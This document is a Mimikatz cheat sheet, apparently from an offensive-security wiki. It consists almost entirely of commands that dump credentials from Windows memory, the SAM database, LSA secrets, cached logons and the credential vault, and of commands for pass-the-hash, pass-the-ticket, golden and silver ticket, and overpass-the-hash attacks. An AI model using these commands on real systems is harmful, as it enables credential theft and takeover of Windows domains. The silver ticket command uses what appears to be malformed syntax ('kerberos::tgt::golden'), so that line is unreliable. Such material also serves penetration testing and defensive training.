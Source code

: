 # 🥝 Mimikatz Basics

Mimikatz is a powerful tool to extract plaintext credentials, hashes,  and Kerberos tickets from memory. Typically run with Administrator or SYSTEM privileges, it’s vital for Windows privilege escalation and lateral movement.

***

## Basic Commands

```batch
mimikatz.exe
privilege::debug
token::elevate
```

## Extracting Credentials

### Oneliner

```batch
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
```

### **Get NTLM Hashes from LSASS**:

```batch
sekurlsa::logonpasswords
```

### **Dump Kerberos Tickets**

```batch
sekurlsa::tickets /export
```

### **Dump Credential Manager**

```batch
vault::cred
```

### **SAM Database**

```batch
lsadump::sam
```

### **LSA Secrets**&#x20;

```batch
lsadump::secrets
```

### **Cached Domain Credentials**

```batch
lsadump::cache
```

## Lateral Movement

### Pass-the-Hash Attack

```batch
sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:<command>
```

### Pass The Ticket

```batch
kerberos::ptt <ticket.kirbi>
```

### Golden Ticket

{% code overflow="wrap" %}
```batch
kerberos::golden /user:<username> /domain:<domain> /sid:<domain SID> /krbtgt:<krbtgt hash> /id:<RID> /target:<target FQDN> /renewmax:<duration> /ptt
```
{% endcode %}

### Silver Ticket

{% code overflow="wrap" %}
```batch
kerberos::tgt::golden /user:<username> /domain:<domain> /sid:<domain SID> /service:<service> /target:<target FQDN> /rc4:<hash> /id:<RID> /ptt
```
{% endcode %}

### Overpass-the-Hash

{% code overflow="wrap" %}
```batch
sekurlsa::pth /user:<username> /domain:<domain> /aes256:<AES key> /run:<command>
```
{% endcode %}
